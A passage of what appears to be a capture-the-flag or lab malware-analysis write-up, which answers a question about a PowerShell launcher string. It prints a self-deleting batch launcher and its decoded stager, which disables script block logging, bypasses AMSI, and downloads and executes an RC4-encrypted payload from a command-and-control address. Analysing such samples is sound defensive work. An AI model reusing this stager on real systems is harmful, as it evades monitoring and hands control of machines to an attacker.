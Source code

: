 Extracted payload:

```powershell
@echo off
start /b powershell -noP -sta -w 1 -enc  <Base64 encoded value>
start /b "" cmd /c del "%%~f0"&exit /b
```

We have the PowerShell launcher string.

Find the PowerShell launcher string (you don’t need to include the base64 encoded script):  
**powershell -noP -sta -w 1 -enc**
{: .notice--success}

To decode the base64, I used [CyberChef](https://gchq.github.io/CyberChef/).

Raw Base64 decoded payload with indentation:

```powershell
If($PSVERSIoNTable.PSVErsIoN.MajoR -Ge 3)
{
    $7b0e3=[rEF].ASSEmBLy.GeTType('System.Management.Automation.Utils')."GetFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
    IF($7B0e3)
    {
        $b3480=$7b0e3.GETValuE($nuLL);
        IF($B3480['ScriptB'+'lockLogging'])
        {
            $b3480['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
            $B3480['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
        }
        $VAl=[COLLeCtions.GenerIC.DiCtioNAry[sTring,SYSTEm.OBjecT]]::nEW();
        $VAL.ADd('EnableScriptB'+'lockLogging',0);
        $VaL.ADD('EnableScriptBlockInvocationLogging',0);
        $B3480['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$val
    }
    ELse
    {
        [SCrIPTBLoCK]."GEtFie`Ld"('signatures','N'+'onPublic,Static').SetVALuE($NuLl,(NeW-OBjECT COLLectIONS.GEneriC.HASHSET[stRiNg]))
    }
    $REF=[REf].AssEMbly.GetTYPE('System.Management.Automation.Amsi'+'Utils');
    $REf.GEtFIeLd('amsiInitF'+'ailed','NonPublic,Static').SETVAlUe($NUll,$tRUE);
};

[SysTEM.NEt.SeRviCEPoInTMANAGer]::EXPEct100ConTINue=0;
$89818=NEW-ObJECt SYsTEm.NEt.WeBCLiEnT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$ser=$([TExT.EncODiNg]::UnIcode.GeTSTRiNG([CONveRt]::FRomBase64STRiNG('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADkAOgA4ADAA')));
$t='/news.php';
$89818.HeAdERS.AD('User-Agent',$u);
$89818.PrOxY=[SySteM.NEt.WeBREquEsT]::DEFAULtWebPrOxY;
$89818.PrOXY.CREDENTIALs = [SYstEM.Net.CreDeNtIAlCacHE]::DEfaulTNetwOrKCRedENtIals;$Script:Proxy = $89818.Proxy;
$K=[SysTem.TeXT.ENCoDINg]::ASCII.GetBytes('w,PNLOZycKI<usBdSQ~jp;5?!MJ9#1]A');

$R={$D,$K=$ARgs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxoR$S[($S[$I]+$S[$H])%256]}};

$89818.HEaDerS.Add("Cookie","wYmshpvXDmn=xh3bLxkNMIyDrcCdNO+vW6hh+ss=");
$DATa=$89818.DowNLoADData($ser+$t);
$Iv=$daTa[0..3];
$DATA=$datA[4..$DAta.leNGTH];
-JOin[CHAR[]](& $R $DaTA ($IV+$K))|IEX
```